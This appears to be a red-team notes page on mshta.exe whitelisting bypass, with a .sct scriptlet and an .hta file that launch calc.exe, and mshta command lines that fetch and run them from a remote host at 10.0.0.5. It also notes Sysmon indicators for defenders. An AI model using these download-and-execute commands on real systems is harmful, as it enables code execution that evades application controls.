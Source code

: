 ```yaml
---
description: MSHTA code execution - bypass application whitelisting.
---
```


# MSHTA

## Execution

Writing a scriptlet file that will launch calc.exe when invoked:

{% code title="http://10.0.0.5/m.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```
{% endcode %}

Invoking the scriptlet file hosted remotely:

{% code title="attacker@victim" %}
```csharp
# from powershell
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```
{% endcode %}

## Observations

As expected, calc.exe is spawned by mshta.exe. Worth noting that mhsta and cmd exit almost immediately after invoking the calc.exe:

![](../../.gitbook/assets/mshta-calc.png)

As a defender, look at sysmon logs for mshta establishing network connections:

![](../../.gitbook/assets/mshta-connection.png)

Also, suspicious commandlines:

![](../../.gitbook/assets/mshta-commandline.png)

## Bonus

The hta file can be invoked like so:

```csharp
mshta.exe http://10.0.0.5/m.hta
```

![](../../.gitbook/assets/mshta-calc2.png)

or by navigating to the file itself, launching it and clicking run:

![](../../.gitbook/assets/mshta-url.png)

{% code title="http://10.0.0.5/m.hta" %}
```markup
<html>
<head>
<script language="VBScript"> 
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    End Sub
RunProgram()
</script>
</head> 
<body>
    Nothing to see here..
</body>
</html>
```
{% endcode %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1170" %}
